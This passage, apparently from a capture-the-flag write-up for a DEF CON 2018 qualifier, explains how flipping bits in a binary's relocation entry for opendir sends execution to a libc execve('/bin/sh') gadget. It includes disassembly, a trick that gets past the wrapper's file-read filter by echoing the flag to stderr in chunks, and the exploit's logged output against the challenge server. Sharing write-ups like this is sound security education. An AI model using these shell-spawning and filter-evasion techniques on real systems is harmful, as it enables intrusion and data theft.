 This gadget executes `execve("/bin/sh", rsp+0x70, environ)`, so we actually
would need `rsp+0x70` to be `NULL` to be sure to not get a `SIGSEGV` or to not
call `/bin/sh some_garbage_args`, but it was well worth a try: using the third
approach explained above, **we can modify the `Elf64_Rela` struct of the
`opendir` symbol** (by flipping the bits `0x7fa*8 +1`, `+4` and `+7`), **and
make the program jump 7 bytes before the gadget** (specifically at `libc_base
+ 0xf1140`) when the tampered `opendir` function gets called.

Jumping at `0xf1140` shuffles the cards in the deck a little bit, but it
really isn't a problem:

   f1140: 24 60                   and    al,0x60  
   f1142: e8 99 67 00 00          call   f78e0 <__close@@GLIBC_2.2.5>  
   f1147: 48 8b 05 6a 2d 2d 00    mov    rax,QWORD PTR [rip+0x2d2d6a] # 3c3eb8
<__environ@@GLIBC_2.2.5-0x3080>  
   ...

As you can see, before the gedget there's a dirty little `and al,0x60`, but we
don't care about it because we have a `mov rax, <stuff>` right after wich
resets `rax`, and also a call to `__close@@GLIBC_2.2.5`: this call could
actually do something unexpected.

Anyway, running the exploit locally gave us a functioning shell, so we ran it
remotely, and... the server hangs waiting for input, **success!** Well,
actually not really: no output was being sent back to us because the call to
`__close` was closing `stdout` right before executing the shell. Not a
problem, we still have `stderr`! Now, since the remote shell is `dash`, we
first ran `bash` and then tried to run `cat secret_flag.txt >&2`, followed by
two `exit`. The wrapper complained: it had detected that we were trying to get
the content of a local file and blocked us. To circumvent this check we just
put the content of the flag in a local variable and used `echo` to write its
content splitted in three parts:

   FLAG=$(cat secret_flag.txt)  
   echo ${FLAG:0:5} >&2  
   echo ${FLAG:5:5} >&2  
   echo ${FLAG:10:5} >&2

**Ta da! Got the flag!** Here's the final output of our exploit:

   $ ./expl.py  
   [+] Opening connection to 61421a06.quals2018.oooverflow.io on port 5566:
Done  
   [+] Solving proof of work: done (359477).  
   [*] Flipping bits: 0x3fcc, 0x3fcf, 0x3fd1  
   [*] Waiting for shell to run...  
   [*] Sending payload: FLAG=$(cat secret_flag.txt)  
       echo ${FLAG:0:5} >&2  
       echo ${FLAG:5:5} >&2  
       echo ${FLAG:10:5} >&2  
   [+] Receiving all data: Done (251B)  
   [*] Closed connection to 61421a06.quals2018.oooverflow.io port 5566

   3 bits have been flipped  
   MD5 of the new version: 3e126b5008b69f13559c49657a15f5fa  
   Let me run the program for you now...  
   -------------------------------------------------------  
   bitfl  
   ip_ma  
   dness
